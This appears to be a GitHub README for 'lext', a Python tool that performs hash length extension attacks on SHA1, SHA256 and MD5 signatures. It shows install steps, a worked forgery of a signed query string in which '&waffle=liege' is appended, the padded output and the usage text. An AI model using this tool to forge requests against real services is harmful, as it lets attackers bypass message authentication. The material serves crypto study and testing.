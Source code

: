 # lext
Length Extension Attack-tool<br>
SHA1, SHA256, SHA224, MD5

**Note that the hash algorithms are not optimized in any way. These are simply implemented from pseudocode from Wikipedia.**

Simple install
```console
git clone https://github.com/mumubebe/lext.git
cd lext/
```

Run as module:
```console
$ python3 -m lext \
>     --data 'count=10&lat=37.351&user_id=1&long=-119.827&waffle=eggo' \
>     --inject '&waffle=liege' \
>     --signature '6d5f807e23db210bc254a28be2d6759a0f5f5d99' \
>     --secret_length 14 \
>     --method 'sha1'
> 
b'count=10&lat=37.351&user_id=1&long=-119.827&waffle=eggo\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x02(&waffle=liege'
0e41270260895979317fff3898ab85668953aaa2

```
or 
```python
>>> from lext import lext
>>> inj, sig = lext(
...     data=b"count=10&lat=37.351&user_id=1&long=-119.827&waffle=eggo",
...     inject=b"&waffle=liege",
...     signature="6d5f807e23db210bc254a28be2d6759a0f5f5d99",
...     secret_length=14,
...     method="sha1"
... )
>>> print(sig)
0e41270260895979317fff3898ab85668953aaa2
>>> print(inj)
b'count=10&lat=37.351&user_id=1&long=-119.827&waffle=eggo\x80\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x00\x02(&waffle=liege'
```

About
```console
usage: __main__.py [-h] [-m {sha1,sha256,md5}] -d DATA -i INJECT -s SIGNATURE -l SECRET_LENGTH
                   [--no-signature] [--no-outputdata]

Length Extension Attack-tool

optional arguments:
  -h, --help            show this help message and exit
  -m {sha1,sha256, md5}, --method {sha1,sha256, md5}
                        Hash method
  -d DATA, --data DATA  The original data known message from server. This data is prepend with a hidden secret
                        unknown to client.
  -i INJECT, --inject INJECT
                        Additional message to append to the original data
  -s SIGNATURE, --signature SIGNATURE
                        Signature of original data
  -l SECRET_LENGTH, --secret_length SECRET_LENGTH
                        Length of the hidden secret that is hidden from client
  --no-signature        Ignore output return of signature
  --no-outputdata       Ignore output return of new data message
```

Similar tools:<br>
https://github.com/stephenbradshaw/hlextend<br>
https://github.com/bwall/HashPump
